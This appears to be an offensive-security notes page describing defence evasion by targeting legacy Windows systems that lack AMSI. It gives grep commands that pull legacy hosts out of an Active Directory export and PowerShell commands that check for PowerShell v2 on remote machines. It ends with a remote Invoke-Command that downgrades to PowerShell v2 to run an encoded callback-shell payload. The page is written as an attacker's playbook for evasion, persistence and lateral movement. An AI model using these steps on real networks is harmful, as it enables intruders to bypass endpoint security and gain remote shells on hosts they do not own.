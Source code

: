 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Lack of AMSI Scanner

### 1.1 - Windows Servers

- Windows Server 2003

`$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt`

- Windows Server 2008 R2

`$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt`

- Windows Server 2012

`$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt`

### 1.2 - Windows Workstations

- Windows XP

`$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt`

- Windows 7

`$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt`

## 02 - Downgrade Powershell

### 2.1 - Enumerate Powershell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 2.2 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Active Directory/Internal Reconnaissance/02 - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Active Directory/Networking/01 - IP Address/Offensive Tools/Scripts/PowerSploit|PowerSploit: Active Directory Networking]]